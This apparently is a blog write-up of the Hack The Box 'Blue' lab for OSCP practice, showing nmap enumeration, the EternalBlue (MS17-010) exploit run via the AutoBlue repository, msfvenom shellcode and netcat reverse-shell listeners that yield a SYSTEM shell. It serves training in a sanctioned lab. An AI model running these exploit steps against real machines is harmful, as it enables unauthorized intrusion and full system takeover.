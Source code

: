 ```yaml
---
title: "Hack The Box - Blue"
date: 2020-01-08
tags: [oscp, htb, windows, eternalblue]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Exploiting Eternal Blue"
picture: /assets/htb-blue/machine_info.png
author_profile: true
---
```


![](/assets/htb-blue/machine_info.png)

## Enumeration

Initial `nmap` scans using `autorecon` show a basic layout of SMB/RPC, with the SMB service returning our target OS as Windows 7 Pro.

```
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.049s latency).
Scanned at 2020-01-08 10:21:05 EST for 155s
Not shown: 65526 closed ports
Reason: 65526 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

The great thing about `autorecon` is that it will do deeper `nmap` scans for the ports it does find. When it ran a SMB vuln check on port 445, it found the following:

```
smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

Looks like the machine is vulnerable to EternalBlue (MS17-010). While this attack vector would be cake with Metasploit, I'm going to go the non-MSF route, since I'm training for the OSCP exam.

---

## Initial Shell

### Clone the AutoBlue repository

Since we won't be using MSF for the easy win, we'll need to use some other exploits to more manually exploit the machine. The [AutoBlue repository](https://github.com/3ndG4me/AutoBlue-MS17-010) is perfect for this. Yes, it still has pre-built exploits, and automates the building of the shellcode for you. But it's still a much more manual process then Metasploit, where you literally just point and click.

To grab the repo, we can use the following command sequence. This will change our directory to `/opt`, clone the repo to `/opt/autoblue`, and navigate to the new directory.

```shell
cd /opt
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git autoblue
cd autoblue
```

Now that we have the tools we need, we can start assembling some shellcode.

### Build shellcode

Part of what makes `AutoBlue` so great is that it helps you to pre-build the shellcode with a built-in script.

From the `/opt/autoblue` directory, we need to `cd` to the `shellcode` directory, and run `./shell_prep.sh`. From there, simply enter the information requested. The script will feed the variables into `msfvenom` to generate the shellcode files. It will also merge them into a single file, which gives us a single bullet, that will handle both x86 and x64 targets.

![](/assets/htb-blue/shellcode_script.png)

You'll note that I decided to go with a stageless, non-meterpreter payload. This way I can simply run dual `nc` listeners to capture the returned shell later.

### Setup listeners

While `AutoBlue` does contain a script to setup and launch MSF listeners for you (via the `exploit/multi/handler` module), my experience with this script has been pretty poor. Since I'm running stageless and non-meterpreter, simple `nc` listeners will capture the shell just fine. Remember that since the x86 and x64 shellcode was merged, and targeted at different ports, we need to setup listeners on both ports 7500 and 7600.

We can run `nc -lvnp 7500` and `nc -lvnp 7600` to setup the listeners.

![](/assets/htb-blue/nc_listeners_norun.png)

### Run the exploit

Now that we have all the parts needed, we can run the actual exploit.

From the `/opt/autoblue` directory, we can run the `eternalblue_exploit7.py` script. The help text shows that we need to specify the target IP and shellcode file.

![](/assets/htb-blue/exploit_help.png)

We can run the command `python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin` to trigger the exploit.

![](/assets/htb-blue/eternalblue_run.png)

Taking a look at the `nc` listeners, we get a shell back on port 7600 (via the x64 shellcode)

![](/assets/htb-blue/nc_listeners.png)

Running `whoami` reveals that we're already running as `nt authority\system`, so privlege escalation won't be needed.

![](/assets/htb-blue/whoami.png)

### Loot!

All that's left is to grab the flags on the system.

We know `root.txt` is in `C:\Users\Administrator\Desktop` like normal, so we can easily grab that.

![](/assets/htb-blue/root_proof.png)

However, since we came in as `nt authority\system`, we haven't had to touch any user accounts.

If we run `dir` on `C:\Users`, we can see the name of the user we're looking for is `haris`. Sure enough, the `user.txt` flag is in `C:\Users\haris\Desktop`.

![](/assets/htb-blue/user_dir.png)

![](/assets/htb-blue/user_proof.png)
